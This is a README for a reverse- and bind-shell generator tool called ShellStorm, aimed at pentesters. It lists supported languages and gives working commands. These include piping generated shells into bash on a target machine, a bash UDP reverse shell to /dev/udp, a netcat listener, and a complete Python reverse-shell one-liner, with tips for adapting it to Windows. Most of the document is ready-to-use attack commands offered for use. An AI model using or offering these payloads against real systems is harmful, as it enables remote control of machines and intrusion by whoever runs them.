 # ShellStorm
Automatic reverse/bind shell generator cheat sheet.  

A compilation of knowledge over the years from many pentesters that you will recognize  
after reading the source code to make the process of creating reverse and bind connections easier  
for cybersecurity analysts.  

* Install requirements for generate **WAR** package.  
<pre>sudo apt-get update -y && sudo apt-get install default-jdk -y</pre>

## Available languages/programs  
<pre>
asp
awk
bash
c
cpan
dart
gawk
golang
groovy
java
jsp
lua
nc
nc-nef (netcat without -e flag, mkfifo)
nodejs
openssl
perl
php
php-daemon
php-simple
ps1
ps1-ds (powershell download string)
python
ruby
sbd
socat
telnet
war
</pre>

# Screenshots
![alt text](https://github.com/0bfxGH0ST/ShellStorm/blob/main/screenshots/screenshot01.png)  
![alt text](https://github.com/0bfxGH0ST/ShellStorm/blob/main/screenshots/screenshot2.png)  

## Try go further
* In some cases you can download shellstorm in any 'target' machine with Linux kernel (or WSL) and execute it by piping it if you prefer.  
<pre>
bash shellstorm.sh bash 10.2.54.13 1337 | bash
</pre>

* Do you want UDP shell? No problem, 'sed' it.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g'
Output:
bash -c "bash -i >& /dev/udp/127.0.0.1/1337 0>&1"
</pre>

* You can pipe it too.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g' | bash
Note:  
Remember use -u (udp) flag in netcat listener as following:  
nc -u -lvp 1337
</pre>

* Brains.
If you find some payload that contains some kind of **system call** as the following **'/bin/sh'** (for Linux) you can modify it by changing **'/bin/sh'** for **'cmd.exe'** and then you got a python payload for Windows too.    
<pre>
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
</pre>
